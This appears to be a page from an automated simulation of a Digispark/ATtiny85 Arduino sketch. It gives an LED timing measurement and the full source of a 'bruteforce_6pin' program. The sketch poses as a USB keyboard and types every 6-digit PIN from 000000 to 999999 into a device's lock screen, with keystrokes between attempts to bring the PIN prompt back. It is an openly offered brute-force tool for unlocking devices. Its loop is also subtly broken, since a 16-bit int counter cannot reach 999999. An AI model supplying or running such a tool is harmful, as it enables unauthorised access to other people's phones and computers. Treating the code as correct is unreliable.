
Simulated run of this sketch. Board: ATtiny85, built with avr-gcc and run on an emulated ATtiny85. On the bench: output pins drawn as LEDs (lit = HIGH).

Above: at 1.7 s.
At 4.3 s:

Timing chart, 0 to 8.5 s (numbered marks = the images above):


Measured:
- by itself, PB1 (LED_PIN): alternates HIGH for 1.7 s and LOW for 2.0 s

The sketch:

bruteforce_6pin.ino
```cpp
#include <DigiKeyboard.h>

#define KEY_BACKSPACE 0x2A  // HID keycode for Backspace
#define KEY_UP        0x52  // HID keycode for Arrow Up

#define ATTEMPT_DELAY     2000        // Delay between attempts (in milliseconds)
#define KEYSTROKE_DELAY   200         // Delay between each digit keystroke (in milliseconds)
#define USE_ENTER         false       // Whether to press Enter after the PIN (not used here)

#define LED_PIN           1           // P1 is usually the built-in LED on Digispark

/**
 * Sends a given PIN as keystrokes via DigiKeyboard, simulating user input.
 * After typing the PIN, it sends Windows + Backspace and then Arrow Up to return
 * to the home screen and bring up the PIN entry interface again.
 */
void typePin(const char* pin) {
  digitalWrite(LED_PIN, HIGH);                // Turn on LED to indicate typing
  DigiKeyboard.sendKeyStroke(0);              // Clear any modifiers

  for (byte i = 0; pin[i] != '\0'; i++) {
    DigiKeyboard.print(pin[i]);               // Send each digit
    DigiKeyboard.delay(KEYSTROKE_DELAY);      // Delay between digits
  }

  if (USE_ENTER) {
    DigiKeyboard.sendKeyStroke(KEY_ENTER);    // Optional Enter
  }

  // Return to home screen with Win + Backspace
  DigiKeyboard.sendKeyStroke(KEY_BACKSPACE, MOD_GUI_LEFT);
  DigiKeyboard.delay(500);

  // Simulate swipe up (Arrow Up)
  DigiKeyboard.sendKeyStroke(KEY_UP);

  digitalWrite(LED_PIN, LOW);                 // Turn off LED
  DigiKeyboard.delay(ATTEMPT_DELAY);          // Delay before next attempt
}

void setup() {
  pinMode(LED_PIN, OUTPUT);
  digitalWrite(LED_PIN, LOW);

  DigiKeyboard.delay(1000); // Short initial delay after plug-in

  // Optional: one-time reset to home screen and swipe up before starting
  DigiKeyboard.sendKeyStroke(KEY_BACKSPACE, MOD_GUI_LEFT);
  DigiKeyboard.delay(500);
  DigiKeyboard.sendKeyStroke(KEY_UP);
  DigiKeyboard.delay(2000);

  // Start brute force from 000000 to 999999
  char pin[7]; // 6 digits + null terminator
  for (int i = 0; i <= 999999; i++) {
    sprintf(pin, "%06d", i); // Format as 6-digit string with leading zeros
    typePin(pin);
  }
}

void loop() {
  // Nothing happens in loop
}
```
